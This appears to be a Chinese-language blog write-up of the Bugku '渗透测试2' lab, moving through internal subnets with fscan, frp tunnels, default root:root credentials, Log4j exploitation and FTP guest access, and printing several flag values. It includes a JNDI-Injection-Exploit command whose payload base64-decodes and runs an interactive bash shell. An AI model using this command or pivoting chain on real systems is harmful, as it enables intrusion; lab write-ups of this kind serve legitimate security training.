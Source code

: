 ```yaml
---
title: bugku 渗透测试2渗透记录
date: 2024-07-28 13:00 +0800
categories: [SRC,渗透]
tags: [PAR,bugku]
img_path: /assets/images/
---
```








![未命名文件](渗透测试2.assets/未命名文件.png)







![image-20240728091958972](渗透测试2.assets/image-20240728091958972.png)

![image-20240728092005696](渗透测试2.assets/image-20240728092005696.png)

命令执行（这里不知道为什么burp没成功）

https://blog.csdn.net/acdcccc/article/details/132700902

![image-20240728092253236](渗透测试2.assets/image-20240728092253236.png)

getshell使用教程公开exploit

## flag1

![image-20240728092704334](渗透测试2.assets/image-20240728092704334.png)

上传fscan

```
192.168.0.2:3306 open
192.168.0.3:80 open
192.168.0.2:80 open
192.168.0.1:80 open
192.168.0.1:22 open
[*] WebTitle: http://192.168.0.1        code:200 len:3392   title:Harry's Blog
[*] WebTitle: http://192.168.0.2        code:200 len:3392   title:Harry's Blog
[*] WebTitle: http://192.168.0.3        code:200 len:4789   title:Bugku后台管理系统
[+] mysql:192.168.0.2:3306:root 
```



## flag2

0.1 0.2 配置一个是一样的我们localhost连接

账号密码 root:root

web配置文件也存在，只不过是cms账号

有数据库

![image-20240728093731807](渗透测试2.assets/image-20240728093731807.png)





架上frp

![image-20240728093544837](渗透测试2.assets/image-20240728093544837.png)

![image-20240728094242028](渗透测试2.assets/image-20240728094242028.png)

连接成功

![image-20240728094252294](渗透测试2.assets/image-20240728094252294.png)





0.3

![image-20240728095615124](渗透测试2.assets/image-20240728095615124.png)

![image-20240728095704318](渗透测试2.assets/image-20240728095704318.png)

log4j

登录会记录日志

![image-20240728095025883](渗透测试2.assets/image-20240728095025883.png)

靶机出网



## flag3

这里是真的巧合了

flag{5fbf32731e82fefa606360f2d08d2ced}

![image-20240728095511611](渗透测试2.assets/image-20240728095511611.png)





JNDIExploit-1.2-SNAPSHOT.jar

这个工具不行

用下面的命令

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,xxxxxxx}|{base64,-d}|{bash,-i}" -A 0.0.0.0
```



## flag4

![image-20240728101406332](渗透测试2.assets/image-20240728101406332.png)



这里还存在一个一网段

![image-20240728101431783](渗透测试2.assets/image-20240728101431783.png)



## flag5

![image-20240728101746549](渗透测试2.assets/image-20240728101746549.png)





```
192.168.1.2:80 open
192.168.1.1:22 open
192.168.1.3:80 open
192.168.1.1:80 open
[*] WebTitle http://192.168.1.1        code:200 len:3392   title:Harry's Blog
[*] WebTitle http://192.168.1.2        code:200 len:4789   title:Bugku后台管理系统
[*] WebTitle http://192.168.1.3        code:200 len:524    title:乙公司Git仓库
```

继续frp

原先的一层不需要了，重新配置

![image-20240728111612802](渗透测试2.assets/image-20240728111612802.png)



## flag6

提交克隆

https://github.com/lmzds/test2.git

![image-20240728112729981](渗透测试2.assets/image-20240728112729981.png)

测试需要改名仓库名

每次都要 clone一下



![image-20240728114302529](渗透测试2.assets/image-20240728114302529.png)

## flag7

![image-20240728114407637](渗透测试2.assets/image-20240728114407637.png)



![image-20240728114427975](渗透测试2.assets/image-20240728114427975-1722138268743-1.png)



```
10.10.0.1:22 open
10.10.0.3:21 open
10.10.0.2:80 open
10.10.0.1:80 open
[*] WebTitle: http://10.10.0.2          code:200 len:524    title:乙公司Git仓库
[*] WebTitle: http://10.10.0.1          code:200 len:3368   title:Harry's Blog
```



![image-20240728123307904](渗透测试2.assets/image-20240728123307904.png)

提示 / 

![image-20240728123451535](渗透测试2.assets/image-20240728123451535.png)

```python
from ftplib import FTP, error_perm


ftp = FTP('10.10.0.3')
ftp.login('guest', 'guest')

print(ftp.retrlines('LIST'))

with open('flag1.txt', 'wb') as file:
    ftp.retrbinary('RETR flag', file.write)
    
ftp.cwd('/')
print(ftp.retrlines('LIST'))
with open('flag2.txt', 'wb') as file:
    ftp.retrbinary('RETR flag', file.write)
```

## flag8

![image-20240728124023398](渗透测试2.assets/image-20240728124023398.png)

flag{e7fe2fb22b525d0b5c67df613fabc95d}